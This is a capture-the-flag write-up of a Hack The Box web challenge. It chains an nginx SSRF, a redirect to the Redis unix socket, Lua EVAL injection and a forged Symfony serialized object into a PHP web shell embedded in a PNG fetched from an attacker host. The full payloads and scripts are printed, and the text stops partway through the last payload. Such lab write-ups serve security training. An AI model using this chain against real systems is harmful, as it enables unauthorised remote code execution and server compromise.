# HTB-Univ-Spell-Orsterra

## Solution

In this challenge, we are given all the source code of the application as well as the configuration files (nginx, docker, ...) allowing to deploy it locally.

The organization of the project is in this form:



So we are dealing with a symfony environment (recognized by the presence of a `composer.json` and a `.env` file). Before going to look at the source code of the application and play with PHP, we will take a look at the configuration files. Indeed, in the configuration files, we can notice several things:
- `readflag` : The binary will fetch the flag in /root, so we will absolutely need an RCE
- `redis.conf` : There is a redis service, we will probably have to get an SSRF to interact with it
- `nginx.conf` / `proxy.conf` : A reverse proxy has been set up on the application


In the redis configuration, we can note the following lines that are not common:

```
unixsocket /run/redis/redis.sock
unixsocketperm 775
```

The redis socket is thus exposed inside the docker, allowing to interact directly with it.

In the nginx configuration, we can note the following two blocks that are not common:

```
location ~ /assets/(.+)/ {
    rewrite ^/assets/(.+)$ /$1 break;

    resolver 1.1.1.1 ipv6=off valid=30s;
    proxy_set_header Accept-Encoding "";
    proxy_pass http://$1;
    proxy_set_header User-Agent "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:37.0) Gecko/20100101 Firefox/37.0";

    proxy_intercept_errors on;
    error_page 301 302 307 = @handle_redirects;

    sub_filter_once off;
    sub_filter_types text/css;
    sub_filter "http://$1" "/assets/$1";
    sub_filter "https://$1" "/assets/$1";
}

location @handle_redirects {
    resolver 1.1.1.1 ipv6=off valid=30s;

    set $original_uri $uri;
    add_header X-original-uri $original_uri;
    set $orig_loc $upstream_http_location;

    proxy_pass $orig_loc;
}
```

In the `location ~ /assets/(.+)/` directive, there is a first vulnerability: `proxy_pass http://$1;`, in fact, this directive means that what is passed to the `(.+)` regex will be used by nginx as a proxy, so it allows to get directly an SSRF ! So we can directly test :



Here, we can see that when we pass `127.0.0.1:80` in the directive, it returns the web page ! So let's try to get the redis instance directly !





Since version 3.7 of redis, the developers have added a security, indeed, if the redis instance, in the request sees the strings `POST` or `Host:`, it will interrupt the connection:

```
10:M 05 Dec 2022 09:23:24.251 - Accepted 127.0.0.1:49606
10:M 05 Dec 2022 09:23:24.251 # Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection aborted.
```

So we won't be able to use the SSRF directly on the redis instance. If we go back to the nginx configuration, we can notice another interesting directive: `error_page 301 302 307 = @handle_redirects;`, that means that if a web instance responds with a redirection code, it will be up to the `handle_redirects` block to handle the rest.

In this block we control more things: 

```
set $orig_loc $upstream_http_location;
proxy_pass $orig_loc;
```

If we look at the `proxy_pass` directive of nginx, we learn that it is possible to interact directly with unix sockets! And this is very interesting, since the configuration of redis has been done in such a way that the redis socket is exposed in the docker! The syntax to do this is quite special: `http://unix:/<path to socket>`. 

Since we are going to interact with the socket, we will have to see what happens when we try to connect to it, for this I will use the socat binary as a TCP proxy:

```bash
cd /var/run/redis/
mv redis.sock redis.sock.original
socat -t100 -x -v UNIX-LISTEN:/var/run/redis/redis.sock,mode=777,reuseaddr,fork UNIX-CONNECT:/var/run/redis/redis.sock.original
```

On an external server, we can create the following PHP script to exploit the vulnerable nginx configuration:

```php
<?php
header("HTTP/1.1 302");
header("Location: http://unix:/var/run/redis/redis.sock");
```

On our socat proxy, we can see the connection being made:



Now that we can communicate with the socket, we will try to find a way to send arbitrary commands to redis. In the communication, we can see that the header "Host: " is on the second line, so we'll have to find a way to send our command on the first line. In the nginx configuration, we notice that in no case it specifies a list of authorized HTTP methods, so we can send any HTTP verb, nginx will accept it.

Moreover, when we answer in our `Location` header with a link to the unix socket, it is possible to specify a path on which the socket will interact: `http://unix:/var/run/redis/redis.sock:/test`, if we send the request back, we observe the following behavior:



Here we have a very interesting behavior, indeed, we control both the http method, but also what is passed behind, so we can send any redis command here since we are before the presence of the header "Host:"!

One last thing to fix is the presence of the string "HTTP/1.0", in fact, redis will trigger an error every time since it will be taken as a parameter of the command that we will pass. To overcome this problem, we will use the "EVAL" command of redis, which allows to execute LUA (in a sandbox).

The format of the commands that we will send will be :

```
"redis.call(<what we want>); return ARGV[1]; " 0
```

This returns ARGV[1], i.e. `HTTP/1.0`, so we can now test by trying to create a key "a" with the content "a", so we modify our PHP script:

```php
<?php
header("HTTP/1.1 302");
header('Location: http://unix:/var/run/redis/redis.sock:"redis.call(\'SET\',\'a\',\'a\'); return ARGV[1];" 0 ');
```

To send our orders, we will use the following bash command:

```sh
curl -X EVAL http://localhost:1337/assets/146.59.156.82:80/
```

And.... tadam:




So now we have a way to write arbitrary data in the redis instance of the application! So now we have to play with the web application to see how we can use this to get an RCE.

To connect on the application, the credentials are by default, `admin:admin`, and we arrive on a kind of game :



When we click on a point, we can take control of it by specifying our email address, and that's all, there is no other functionality on the application. So we are going to look at the code to see what happens when we "take control" of a point on the map:

- Dans le fichier "AdminController.php":
```php
public function subscribe(Request $request, ManagerRegistry $doctrine, MessageBusInterface $bus)
{
[...]
    $subscribeNotification = new SubscribeNotification(
        $subscribe->email,
        $subscribe->uuid,
        $tracker->getXCoordinate(),
        $tracker->getYCoordinate()
    );
    $bus->dispatch($subscribeNotification);
[...]
}
```

Here, we notice that we will create a `SubscribeNotification` object with the email specified by the user, the uuid of the point and its coordinates. If we create a point, we can notice this in the application logs:

```
09:51:40 INFO      [messenger] Received message App\Message\SubscribeNotification ["class" => "App\Message\SubscribeNotification"]
09:51:40 INFO      [messenger] Message App\Message\SubscribeNotification handled by App\MessageHandler\SubscribeNotificationHandler::__invoke ["class" => "App\Message\SubscribeNotification","handler" => "App\MessageHandler\SubscribeNotificationHandler::__invoke"]
09:51:40 INFO      [messenger] App\Message\SubscribeNotification was handled successfully (acknowledging to transport). ["class" => "App\Message\SubscribeNotification"]
```

In symfony, it's possible to create "MessageHandler" which allow to listen on a certain class, and when this one is invoked (so created), then the code defined in "MessageHandler" is executed.
Moreover, in the application architecture, you may have seen (at the beginning) the file "worker.sh" :

```sh
#!/bin/ash

chmod 0700 /worker.sh

while true; do
    php81 /www/bin/console messenger:consume SendMailTransport --time-limit=60 -vv
    echo "DEL messages" | redis-cli
done
```

So we can use the `grep` command on `SendMailTransport` to see what it corresponds to:

```
challenge/config/packages/messenger.yaml:            SendMailTransport: "%env(MESSENGER_TRANSPORT_DSN)%"
challenge/config/packages/messenger.yaml:            'App\Message\SubscribeNotification': SendMailTransport
```

If we look in the .env file, the "MESSENGER_TRANSPORT_DSN" variable is initialized to `redis://localhost:6379/messages`.


So we can go back to redis to see what happens when we write to a point on the map. In the redis keys, we notice the presence of "messages", this key is of type "STREAM", to see what happens in it at the time of writing, we can use the following command: `XREAD BLOCK 0 STREAMS messages $` :



What a surprise! At the time of the message handling, a symfony serialized object is written in redis, allowing the application to send a mail. So we will have to exploit the application via this way, to get our remote code execution.

Before going to exploit the deserialization via redis, we will follow the following path:
- Modification of the direct PHP code with the values of the variables we want
- Dump the serialization we want to send via the command `XREAD BLOCK 0 STREAMS messages $`.
- Delete the added code and restart the application
- Direct writing in redis of the payload recovered at step 2 via the XADD command
- Restart the application and write the payload via the miconfiguration of nginx

We don't want to be able to use symfony's gadget, indeed, the version of this one is too recent and no PoC is released yet. We notice the presence of the following class in the serialization : `ApplicationMessageSubscribeNotification`. This class does not contain much, except four attributes that we have already described above. So we'll have to make a pop chain to call another class which is potentially vulnerable. After analysis of the files, we choose this one : `SubscribeNotificationHandler` :

```php
class SubscribeNotificationHandler implements MessageHandlerInterface
{
    [...]
    public $export_file;
    [...]
    public $map = 'http://localhost/static/images/clean_map.png';
    public $stamp = 'http://localhost/static/images/stamp.png';
    [...]
    public function __destruct()
    {
        $exportMap = new MapExportService(
            $this->uuid,
            $this->map,
            $this->stamp,
            $this->export_file,
            $this->x_coordinate,
            $this->y_coordinate
        );
    }
    [...]
}
```

In the following explanation, we will have to assume that with deserialization, we control all the parameters of the `SubscribeNotificationHandler` class, including `$map` and `$stamp`.

The fact that this code is in the magic function `__destruct` is convenient, because this method is called as soon as an object is destroyed, except that if we create one in our serialization, it will necessarily be destroyed afterwards, so this code will necessarily be called. We will now concentrate on the `MapExportService` class, and more particularly on the `generateMap()` method, since this is called by the `SubscribeNotificationHandler` class:

```php
class MapExportService
{
    [...]
    public function generateMap()
    {
        // Fetch resources
        $mapFile = $this->fetch_image($this->map_url);
        $stampFile = $this->fetch_image($this->stamp_url);

        if (!$this->is_image($mapFile) || !$this->is_image($stampFile)) return false;

        // Create Image instances
        $map = imagecreatefrompng($mapFile);
        $stamp = imagecreatefrompng($stampFile);

        // add stamp to the tracker coordinates
        imagecopymerge(
            $map,
            $stamp,
            $this->x_coordinate,
            $this->y_coordinate,
            0,
            0,
            imagesx($stamp),
            imagesy($stamp),
            100
        );

        // create watermark with details
        $stamp = imagecreatetruecolor(420, 115);

        imagefilledrectangle($stamp, 0, 0, 419, 115, 0x0000FF);
        imagefilledrectangle($stamp, 9, 9, 410, 105, 0xFFFFFF);

        imagestring($stamp, 5, 20, 20, 'Track: ' . $this->uuid, 0x0000FF);
        imagestring($stamp, 5, 20, 40, 'X-Coordinate: ' . $this->x_coordinate, 0x0000FF);
        imagestring($stamp, 5, 20, 60, 'Y-Coordinate: ' . $this->y_coordinate, 0x0000FF);
        imagestring($stamp, 5, 20, 80, 'Last Updated: ' . date("Y/m/d H:i:s"), 0x0000FF);

        // Set the margins for the stamp and get the height/width of the stamp image
        $marge_right = 10;
        $marge_bottom = 10;
        $sx = imagesx($stamp);
        $sy = imagesy($stamp);

        // Merge the stamp onto our map
        imagecopymerge($map, $stamp, imagesx($map) - 450, 10, 0, 0, imagesx($stamp), imagesy($stamp), 50);

        // Save exported map
        $savePath = '/www/public/static/exports/' . $this->export_file;
        imagepng($map, $savePath);
    }
    [...]
}
```

This class will be used to get our remote code execution, as the last statement of the `generateMap()` function is `imagepng($map, $savePath);`, but we also control the `$this->export_file` variable as it is declared in the `SubscribeNotificationHandler` class.

Last but not least, this method does a lot of operations on the images it retrieves, which prevents us from using basic code execution techniques in the images (comments, ...).
To achieve this, I used Synacktiv's blog on [images](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html), and in particular the "IDAT chunk" method, with the following script:

```php
<?php
 
header('Content-Type: image/png');
 
$p = array(0xA3, 0x9F, 0x67, 0xF7, 0x0E, 0x93, 0x1B, 0x23, 0xBE, 0x2C, 0x8A, 0xD0, 0x80, 0xF9, 0xE1, 0xAE, 0x22, 0xF6, 0xD9, 0x43, 0x5D, 0xFB, 0xAE, 0xCC, 0x5A, 0x01, 0xDC, 0xAA, 0x52, 0xD0, 0xB6, 0xEE, 0xBB, 0x3A, 0xCF, 0x93, 0xCE, 0xD2, 0x88, 0xFC, 0x69, 0xD0, 0x2B, 0xB9, 0xB0, 0xFB, 0xBB, 0x79, 0xFC, 0xED, 0x22, 0x38, 0x49, 0xD3, 0x51, 0xB7, 0x3F, 0x02, 0xC2, 0x20, 0xD8, 0xD9, 0x3C, 0x67, 0xF4, 0x50, 0x67, 0xF4, 0x50, 0xA3, 0x9F, 0x67, 0xA5, 0xBE, 0x5F, 0x76, 0x74, 0x5A, 0x4C, 0xA1, 0x3F, 0x7A, 0xBF, 0x30, 0x6B, 0x88, 0x2D, 0x60, 0x65, 0x7D, 0x52, 0x9D, 0xAD, 0x88, 0xA1, 0x66, 0x94, 0xA1, 0x27, 0x56, 0xEC, 0xFE, 0xAF, 0x57, 0x57, 0xEB, 0x2E, 0x20, 0xA3, 0xAE, 0x58, 0x80, 0xA7, 0x0C, 0x10, 0x55, 0xCF, 0x09, 0x5C, 0x10, 0x40, 0x8A, 0xB9, 0x39, 0xB3, 0xC8, 0xCD, 0x64, 0x45, 0x3C, 0x49, 0x3E, 0xAD, 0x3F, 0x33, 0x56, 0x1F, 0x19 );
 
$img = imagecreatetruecolor(110, 110);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
$r = $p[$y];
$g = $p[$y+1];
$b = $p[$y+2];
$color = imagecolorallocate($img, $r, $g, $b);
imagesetpixel($img, round($y / 3)*2, 0, $color);
imagesetpixel($img, round($y / 3)*2+1, 0, $color);
imagesetpixel($img, round($y / 3)*2, 1, $color);
imagesetpixel($img, round($y / 3)*2+1, 1, $color);
}
 
imagepng($img);
?>
```

So we create our payload with: `php gen.php '<?php phpinfo(); ?>' blank.png`

We are going to modify the code of the application so that the variables `$map` and `$stamp` point towards this malicious file, moreover, we also modify the variable `$this->export_file` so that it is equal to `exploit.php`. So we recreate a point on the map, and after a minute (we wait for the `worker.sh` script to be executed), we go to `/static/exports/exploit.php`, and ... :



So we succeeded in getting our remote code execution, so we will modify the payload to be as follows:

`php test.php '<?=`$_GET[1]`?>' blank.png`

Once done, we restart the application, we recreate a point, we go to `/static/exports/exploit.php` and ... :



We arrive at flag locally ! It is now necessary to recover the serialized payload in redis, and to try to insert it directly via the XADD command. We recover our payload which is in the form :

```
XADD messages * message "s:1053:\"{\"body\":\"O:36:\\\\\\\"Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Envelope\\\\\\\":2:{s:44:\\\\\\\"\\\\0Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Envelope\\\\0stamps\\\\\\\";a:1:{s:46:\\\\\\\"Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Stamp\\\\\\\\BusNameStamp\\\\\\\";a:1:{i:0;O:46:\\\\\\\"Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Stamp\\\\\\\\BusNameStamp\\\\\\\":1:{s:55:\\\\\\\"\\\\0Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Stamp\\\\\\\\BusNameStamp\\\\0busName\\\\\\\";s:21:\\\\\\\"messenger.bus.default\\\\\\\";}}}s:45:\\\\\\\"\\\\0Symfony\\\\\\\\Component\\\\\\\\Messenger\\\\\\\\Envelope\\\\0message\\\\\\\";O:33:\\\\\\\"App\\\\\\\\Message\\\\\\\\SubscribeNotification\\\\\\\":4:{s:5:\\\\\\\"email\\\\\\\";s:6:\\\\\\\"a@a.fr\\\\\\\";s:4:\\\\\\\"uuid\\\\\\\";O:47:\\\\\\\"App\\\\\\\\MessageHandler\\\\\\\\SubscribeNotificationHandler\\\\\\\":7:{s:5:\\\\\\\"email\\\\\\\";N;s:4:\\\\\\\"uuid\\\\\\\";N;s:11:\\\\\\\"export_file\\\\\\\";s:11:\\\\\\\"exploit.php\\\\\\\";s:12:\\\\\\\"x_coordinate\\\\\\\";N;s:12:\\\\\\\"y_coordinate\\\\\\\";N;s:3:\\\\\\\"map\\\\\\\";s:30:\\\\\\\"http:\\/\\/146.59.156.82\\/blank.png\\\\\\\";s:5:\\\\\\\"stamp\\\\\\\";s:30:\\\\\\\"http:\\/\\/146.59.156.82\\/blank.png\\\\\\\";}s:12:\\\\\\\"x_coordinate\\\\\\\";s:3:\\\\\\\"420\\\\\\\";s:12:\\\\\\\"y_coordinate\\\\\\\";s:3:\\\\\\\"226\\\\\\\";}}\",\"headers\":[]}\";"
```

We go to `/static/export/exploit.php` :



So we have our functional payload ! We just have to spawn an instance on the hackthebox website, and to put our payload in the header "Location", for that, I listen directly with netcat to avoid having to play with the quotes.

So we send the following payload:

```
HTTP/1.1 302
Location: http://unix:/var/run/redis/redis.sock:"redis.call('XADD','messages','*','message','s:1053:\"{\"body\":\"O:36:\\\\\\\\\\\\\"Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Envelope\\\\\\\\\\\\\":2:{s:44:\\\\\\\\\\\\\"\\\\\\\\0Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Envelope\\\\\\\\0stamps\\\\\\\\\\\\\";a:1:{s:46:\\\\\\\\\\\\\"Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Stamp\\\\\\\\\\\\\\\\BusNameStamp\\\\\\\\\\\\\";a:1:{i:0;O:46:\\\\\\\\\\\\\"Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Stamp\\\\\\\\\\\\\\\\BusNameStamp\\\\\\\\\\\\\":1:{s:55:\\\\\\\\\\\\\"\\\\\\\\0Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Stamp\\\\\\\\\\\\\\\\BusNameStamp\\\\\\\\0busName\\\\\\\\\\\\\";s:21:\\\\\\\\\\\\\"messenger.bus.default\\\\\\\\\\\\\";}}}s:45:\\\\\\\\\\\\\"\\\\\\\\0Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Envelope\\\\\\\\0message\\\\\\\\\\\\\";O:33:\\\\\\\\\\\\\"App\\\\\\\\\\\\\\\\Message\\\\\\\\\\\\\\\\SubscribeNotification\\\\\\\\\\\\\":4:{s:5:\\\\\\\\\\\\\"email\\\\\\\\\\\\\";s:6:\\\\\\\\\\\\\"a@a.fr\\\\\\\\\\\\\";s:4:\\\\\\\\\\\\\"uuid\\\\\\\\\\\\\";O:47:\\\\\\\\\\\\\"App\\\\\\\\\\\\\\\\MessageHandler\\\\\\\\\\\\\\\\SubscribeNotificationHandler\\\\\\\\\\\\\":7:{s:5:\\\\\\\\\\\\\"email\\\\\\\\\\\\\";N;s:4:\\\\\\\\\\\\\"uuid\\\\\\\\\\\\\";N;s:11:\\\\\\\\\\\\\"export_file\\\\\\\\\\\\\";s:11:\\\\\\\\\\\\\"exploit.php\\\\\\\\\\\\\";s:12:\\\\\\\\\\\\\"x_coordinate\\\\\\\\\\\\\";N;s:12:\\\\\\\\\\\\\"y_coordinate\\\\\\\\\\\\\";N;s:3:\\\\\\\\\\\\\"map\\\\\\\\\\\\\";s:30:\\\\\\\\\\\\\"http:\\\\/\\\\/146.59.156.82\\\\/blank.png\\\\\\\\\\\\\";s:5:\\\\\\\\\\\\\"stamp\\\\\\\\\\\\\";s:30:\\\\\\\\\\\\\"http:\\\\/\\\\/146.59.156.82\\\\/blank.png\\\\\\\\\\\\\";}s:12:\\\\\\\\\\\\\"x_coordinate\\\\\\\\\\\\\";s:3:\\\\\\\\\\\\\"420\\\\\\\\\\\\\";s:12:\\\\\\\\\\\\\"y_coordinate\\\\\\\\\\\\\